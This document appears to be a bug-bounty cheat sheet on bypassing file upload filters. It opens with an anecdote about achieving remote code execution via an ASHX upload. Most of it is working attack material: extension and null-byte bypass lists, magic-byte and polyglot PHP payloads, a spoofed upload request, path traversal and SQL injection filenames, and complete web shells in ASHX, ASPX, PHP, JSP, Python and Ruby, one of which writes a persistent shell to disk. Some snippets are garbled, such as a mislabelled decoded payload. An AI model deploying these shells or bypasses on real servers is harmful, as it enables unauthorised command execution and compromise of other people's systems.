

<script src="https://gist.github.com/hunter-0x7/ddf8bd71b22f99b3625b819f1064d2ce.js"></script>
one of the RCEs: a website was blocking ASPX file uploads. bypassed it by uploading an ASHX file and triggering it to create an ASPX shell on same dir.

ASHX shell: https://lnkd.in/dEvzw7EE 

I tried the existing ASHX shells but they failed, I edited one of them to get the C# exploit code as base64 and 🔥.

decoded base64:
var shell = new ActiveXObject("http://WScript.Shell");
var cmd = "cmd.exe /c dir";
var output = shell.Exec(cmd).StdOut.ReadAll();
output;

# 🎯 **FILE UPLOAD EVASION & WEB SHELL PAYLOADS**
> *Complete Guide to Extension Bypass, Payload Crafting, and RCE*

---

## 📊 **UNDERSTANDING THE ATTACK VECTORS**



---

## 🔴 **EXTENSION BYPASS TECHNIQUES**

### **1. Case Manipulation Bypass**

| Original Blocked | Bypass Payload | Why It Works |
|-----------------|----------------|---------------|
| `.php` | `.pHp`, `.PhP`, `.pHP5` | WAF checks only lowercase |
| `.asp` | `.AsP`, `.aSp`, `.ASP` | Case-sensitive filter |
| `.jsp` | `.JsP`, `.jSp`, `.JSP` | Incomplete normalization |
| `.aspx` | `.AsPx`, `.aSpX`, `.ASPX` | Mixed case bypass |

### **2. Double Extension Bypass**

| Payload | What Server Executes | Detection Evasion |
|---------|---------------------|-------------------|
| `shell.php.png` | `.php` (if configured) | Looks like image |
| `shell.png.php` | `.php` | Extension parsing order |
| `shell.php.rar` | `.php` (Apache mod_mime) | Archive extension hides |
| `shell.php.bak` | `.php` | Backup file disguise |

### **3. Less Known Executable Extensions**

#### **For PHP Servers**
```php
shell.php2      // PHP 2 handler
shell.php3      // PHP 3 handler
shell.php4      // PHP 4 handler
shell.php5      // PHP 5 handler
shell.php6      // PHP 6 handler
shell.php7      // PHP 7 handler
shell.phps      // PHP source
shell.pht       // PHP HTML
shell.phtml     // PHP HTML
shell.phar      // PHP archive
shell.inc       // PHP include
```

#### **For ASP/ASP.NET Servers**
```asp
shell.asp
shell.aspx
shell.ashx      // Web handler (YOUR CASE!)
shell.asmx      // Web service
shell.axd       // HTTP handler
shell.aspq
shell.cer       // Certificate file (IIS executes)
shell.cdx       // IIS executes
shell.asa       // ASP script
shell.rem       // ASP.NET remoting
shell.soap      // SOAP endpoint
```

#### **For JSP Servers**
```jsp
shell.jsp
shell.jspx      // JSP XML
shell.jsw       // JSP fragment
shell.jsv       // JSP fragment
shell.jspf      // JSP fragment
```

#### **For ColdFusion**
```cfm
shell.cfm
shell.cfml
shell.cfc      // ColdFusion component
shell.cfmr
shell.dbml
```

### **4. Special Character Bypass**

```bash
# Null byte injection (old PHP)
shell.php%00.png      # Server sees .php, WAF sees .png
shell.php\x00.jpg     # Null byte in hex
shell.php\0.png       # Escape sequence

# Space bypass
shell.php .png        # Space before extension
shell.php\ .png       # Escaped space
shell.php%20.png      # URL encoded space

# Newline bypass
shell.php\n.png       # Newline before extension
shell.php%0a.png      # URL encoded newline

# Dot bypass
shell.php...........png   # Many dots
shell.php......adf.jpg    # Random characters

# Slash bypass
shell.php/.png        # Forward slash
shell.php\.png        # Backslash
```

---

## 🟠 **CONTENT BYPASS TECHNIQUES**

### **1. Magic Byte Spoofing**

```bash
# PNG header + PHP code
\x89PNG\r\n\x1a\n<?php system($_GET['cmd']); ?>

# GIF header + PHP code
GIF89a<?php system($_GET['cmd']); ?>

# JPG header + PHP code
\xFF\xD8\xFF\xE0<?php system($_GET['cmd']); ?>

# PDF header + PHP code
%PDF-1.4<?php system($_GET['cmd']); ?>
```

### **2. Polyglot Files (Multiple Interpretations)**

```php
/* PHP+JPG Polyglot */
__halt_compiler(); ?>
\xFF\xD8\xFF\xE0<?php system($_GET['cmd']); ?>

/* PHP+ZIP Polyglot */
PK\x03\x04<?php system($_GET['cmd']); ?>

/* PHP+SQL Polyglot */
<?php system($_GET['cmd']); ?>/*,'".sql
```

### **3. Content-Type Manipulation**

```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg                    ← Spoofed MIME

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

### **4. Double Extensions with Content Spoofing**

```bash
# File: shell.php.png
# Actual content: PNG header + PHP code
\x89PNG\r\n\x1a\n<?php system($_GET['cmd']); ?>

# WAF sees: PNG image
# Server executes: PHP code
```

---

## 🟡 **PATH TRAVERSAL BYPASS**

### **1. Directory Traversal Uploads**

```bash
# Upload to parent directory
../../../../var/www/html/shell.php
../../../../etc/passwd
../../../logo.png

# Windows paths
..\..\..\windows\system32\cmd.exe
..\..\..\inetpub\wwwroot\shell.aspx

# URL encoded traversal
..%2F..%2F..%2Fvar%2Fwww%2Fhtml%2Fshell.php
..%5C..%5C..%5Cwindows%5Csystem32%5Ccmd.exe

# Double encoded
..%252F..%252F..%252Fvar%252Fwww%252Fhtml%252Fshell.php
```

### **2. Filename Injection**

```bash
# Directory traversal in filename
../../../../tmp/shell.php

# Path traversal via parameter
filename=../../../../var/www/html/shell.php

# Absolute path upload
filename=/var/www/html/shell.php
filename=C:\inetpub\wwwroot\shell.aspx
```

---

## 🟢 **TIME-BASED SQLi IN FILE UPLOADS**

### **SQL Injection via Filename**

```sql
-- MySQL sleep in filename
'sleep(10).jpg
sleep(10)-- -.jpg
; sleep 10;.jpg

-- PostgreSQL pg_sleep
'; SELECT pg_sleep(10)-- -.jpg

-- MSSQL WAITFOR
'; WAITFOR DELAY '0:0:10'-- -.jpg

-- XOR payload in filename
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z.jpg
```

---

## 🔵 **ASHX WEB SHELL (YOUR CASE)**

### **Why ASHX Bypasses ASPX Blocks**

```markdown
**Why ASHX works when ASPX is blocked:**
1. Less known extension - often not in blacklists
2. Same execution power as ASPX
3. Smaller footprint - easier to hide
4. Can be called directly via URL
```

### **Minimal Working ASHX Shell**

```csharp
<%@ WebHandler Language="C#" Class="Shell" %>
using System;
using System.Web;
using System.Diagnostics;
using System.IO;

public class Shell : IHttpHandler {
    public void ProcessRequest (HttpContext context) {
        string cmd = context.Request.QueryString["cmd"];
        if (cmd != null) {
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c " + cmd);
            psi.RedirectStandardOutput = true;
            psi.UseShellExecute = false;
            Process p = Process.Start(psi);
            string output = p.StandardOutput.ReadToEnd();
            context.Response.ContentType = "text/plain";
            context.Response.Write(output);
        }
    }
    
    public bool IsReusable { get { return false; } }
}
```

### **Advanced ASHX Shell (With Auth)**

```csharp
<%@ WebHandler Language="C#" Class="SecureShell" %>
using System;
using System.Web;
using System.Diagnostics;
using System.IO;

public class SecureShell : IHttpHandler {
    private const string SECRET_KEY = "MySecretKey123";
    
    public void ProcessRequest(HttpContext context) {
        string key = context.Request.QueryString["key"];
        if (key != SECRET_KEY) {
            context.Response.Write("Access Denied");
            return;
        }
        
        string cmd = context.Request.QueryString["cmd"];
        if (cmd != null) {
            try {
                ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c " + cmd);
                psi.RedirectStandardOutput = true;
                psi.UseShellExecute = false;
                Process p = Process.Start(psi);
                string output = p.StandardOutput.ReadToEnd();
                context.Response.Write(output);
            } catch (Exception ex) {
                context.Response.Write("Error: " + ex.Message);
            }
        }
    }
    
    public bool IsReusable { get { return false; } }
}
```

### **ASHX File Upload + Create ASPX Shell**

```csharp
<%@ WebHandler Language="C#" Class="CreateShell" %>
using System;
using System.Web;
using System.IO;

public class CreateShell : IHttpHandler {
    public void ProcessRequest(HttpContext context) {
        string aspxShell = @"<%@ Page Language='C#' %>
<%@ Import Namespace='System.Diagnostics' %>
<script runat='server'>
protected void Page_Load(object sender, EventArgs e) {
    string cmd = Request.QueryString['cmd'];
    if (cmd != null) {
        ProcessStartInfo psi = new ProcessStartInfo('cmd.exe', '/c ' + cmd);
        psi.RedirectStandardOutput = true;
        psi.UseShellExecute = false;
        Process p = Process.Start(psi);
        string output = p.StandardOutput.ReadToEnd();
        Response.Write(output);
    }
}
</script>";
        
        string path = context.Server.MapPath("~/shell.aspx");
        File.WriteAllText(path, aspxShell);
        context.Response.Write("Shell created at: " + path);
    }
    
    public bool IsReusable { get { return false; } }
}
```

---

## 🟣 **OTHER WEB SHELL VARIANTS**

### **PHP Web Shells**

```php
<!-- Basic PHP Shell -->
<?php system($_GET['cmd']); ?>

<!-- POST-based shell -->
<?php system($_POST['cmd']); ?>

<!-- Multi-function shell -->
<?php 
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
} 
?>

<!-- Bypass with base64 -->
<?php eval(base64_decode('c3lzdGVtKCRfR0VUWydjbWQnXSk7')); ?>

<!-- Image polyglot -->
GIF89a<?php system($_GET['cmd']); ?>
```

### **JSP Web Shells**

```jsp
<!-- Basic JSP Shell -->
<%
    String cmd = request.getParameter("cmd");
    if(cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        java.io.BufferedReader reader = new java.io.BufferedReader(
            new java.io.InputStreamReader(p.getInputStream()));
        String line;
        while((line = reader.readLine()) != null) {
            out.println(line);
        }
    }
%>
```

### **Python CGI Shell**

```python
#!/usr/bin/python
import cgi, subprocess
print("Content-Type: text/html\n")
form = cgi.FieldStorage()
cmd = form.getvalue('cmd')
if cmd:
    output = subprocess.getoutput(cmd)
    print(output)
```

### **Ruby CGI Shell**

```ruby
#!/usr/bin/ruby
require 'cgi'
cgi = CGI.new
cmd = cgi['cmd']
if cmd
    print "Content-Type: text/html\n\n"
    print `#{cmd}`
end
```

---

## 📊 **QUICK REFERENCE: EXTENSION BYPASS MATRIX**

| Server Type | Common Blocked | Try These Instead |
|-------------|----------------|-------------------|
| **PHP** | `.php` | `.php2`, `.php3`, `.php4`, `.php5`, `.php7`, `.phtml`, `.phar`, `.inc` |
| **ASP/ASP.NET** | `.asp`, `.aspx` | `.ashx`, `.asmx`, `.axd`, `.cer`, `.asa`, `.rem`, `.soap` |
| **JSP** | `.jsp` | `.jspx`, `.jsw`, `.jsv`, `.jspf` |
| **ColdFusion** | `.cfm` | `.cfml`, `.cfc`, `.dbml` |
| **Perl** | `.pl` | `.cgi`, `.pm` |
| **Python** | `.py` | `.pyc`, `.pyo`, `.cgi` |

---

## ⚡ **PRO TIPS FOR BUG HUNTERS**

```markdown
### 1. Always Test Extension Variants
- If .php blocked → try .php5, .phtml, .phar
- If .aspx blocked → try .ashx, .asmx, .axd
- Case variations: .pHp, .AsPx, .jSp

### 2. Combine Techniques
- Double extension + case manipulation: shell.pHp.png
- Null byte + magic byte: shell.php%00.png (with PNG header)
- Path traversal + extension: ../../shell.php

### 3. Content-Type Spoofing
- Always send Content-Type: image/jpeg
- Add magic bytes at beginning of file

### 4. For SQLi via File Upload
- Inject time-based payloads in filename
- Test all parameters: filename, metadata, description

### 5. When You Find a Shell
- Report immediately
- Don't browse internal files
- Screenshot proof of execution
- Delete your test files if possible
```

---


This proves execution without compromising the system!
```

---

**Remember:** The best file upload bypass combines multiple techniques - extension manipulation, content spoofing, and path traversal. ASHX is your friend when ASPX is blocked!
